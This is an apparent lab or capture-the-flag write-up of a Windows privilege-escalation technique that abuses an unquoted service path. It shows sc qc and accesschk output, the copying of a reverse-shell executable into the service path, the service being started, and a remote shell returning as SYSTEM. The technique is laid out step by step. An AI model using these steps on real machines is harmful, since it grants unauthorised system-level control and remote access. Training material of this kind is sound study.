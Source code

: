 ## unquoted service path

Check `unquotedsvc`

```
C:\Users\user>sc qc unquotedsvc
sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Let's check if we have write access to path:

`C:\Program Files\Unquoted Path Service\Common Files\`

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

C:\Users\user>
```

Let's note that `BUILTIN\Users` have write access.

Copy our reverse shell payload to path:

```
C:\Users\user>copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.
```

Start service:

```
C:\Users\user>net start unquotedsvc
```

Enjoy our shell:

```bash
connect to [10.8.100.14] from (UNKNOWN) [10.10.174.134] 49830
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
